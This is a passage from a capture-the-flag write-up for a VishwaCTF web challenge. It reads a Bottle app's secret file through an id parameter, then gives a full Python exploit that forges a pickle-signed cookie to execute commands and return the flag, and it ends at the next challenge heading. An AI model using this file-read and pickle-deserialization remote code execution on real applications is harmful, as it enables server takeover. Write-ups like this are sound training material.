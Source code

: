```
    run(host="0.0.0.0", port=80)
``` 

as we can see in the code the file /app/config/secret.py contains the Cookie of the admin 

https://ch681069157790.ch.eng.run/show?id=/app/config/secret.py :
```
Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"
```

i find this exploit online : 
```
import os, hmac, hashlib, base64, pickle, requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))

session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch681069157790.ch.eng.run/sign", cookies={"name": cookie})
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))
```
we got this : flag{W3lcome_t0_p03m_p0ck3t}

But in format it'll be this VishwaCTF{W3lcome_t0_p03m_p0ck3t}

-----
-----

# CHALLENGE 3 : MediCare Pharma
